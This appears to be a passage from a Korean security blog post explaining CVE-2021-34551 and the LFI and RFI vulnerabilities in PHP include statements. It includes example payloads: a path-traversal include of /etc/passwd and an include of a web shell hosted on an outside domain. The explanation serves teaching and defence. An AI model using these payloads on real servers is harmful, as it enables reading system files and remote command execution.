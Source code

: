 `CVE-2021-34551`은 UNC Path를 이용한 RFI를 통해 RCE 하는 방식입니다.

RFI는 `Remote File Inclusion`의 약자로, PHP에서 `include` 또는 `require` 등의 구문을 사용하여 로컬 드라이브 내 파일이 아닌 외부 도메인의 리소스를 가져와 사용하는 것이 가능할 때 발생하는 취약점입니다.

먼저 include에 대해 간단히 알아보겠습니다.

![/assets/2021-08-01/Untitled.png](/assets/2021-08-01/Untitled.png)

include 구문은 로컬 또는 외부에 있는 리소스를 가져와 사용할 수 있는 기능을 제공합니다.

일반적으로 include 구문에 사용되는 인자는 사용자의 입력으로 조작할 수 없는 static한 값을 사용합니다. (*e.g., include "header.php";*)

하지만 이 때 include에 사용되는 인자(파일 경로)를 사용자가 조작할 수 있을 경우, 정해진 경로의 파일이 아닌 `다른 경로에 존재하는 파일`을 가져올 수 있습니다.

include를 사용하여 파일을 가져올 때 php 구문만을 파싱하여 코드로 활용하는 것이 아닌, 파일 자체의 내용을 끼워 넣는 형태이기 때문에 `/etc/passwd` 와 같은 파일을 불러와 출력시키는 것이 가능합니다. (*e.g., include "../../../../etc/passwd";*)

이렇게 로컬 드라이브 내의 파일을 include 시켜 파일의 내용을 추출할 수 있는 취약점이 `LFI(Local File Inclusion)` 입니다.

그렇다면 RFI는 Remote라는 단어를 포함시키기 때문에 로컬 드라이브 내의 파일이 아닌 `원격지에 존재하는 리소스를 가져와 사용`할 수 있는 경우를 뜻하겠죠.

보통 공격자는 원격지에 `system` , `exec` , `passthru` 등 시스템 명령어를 사용할 수 있는 함수를 포함한 PHP 파일을 작성한 뒤, RFI에 취약한 페이지에서 공격자의 주소지를 입력하여 해당 PHP를 include 하여 공격합니다. (*e.g., include "https://choiys.kr/rfi/shell.php";)*

결과적으로 RFI에 취약한 서버에 시스템 명령어를 실행할 수 있는 `웹쉘을 업로드 한 것과 동일한 효과`를 줄 수 있게 됩니다.

RFI 공격은 `php.ini` 설정에 의해 공격 가능 여부가 결정됩니다.
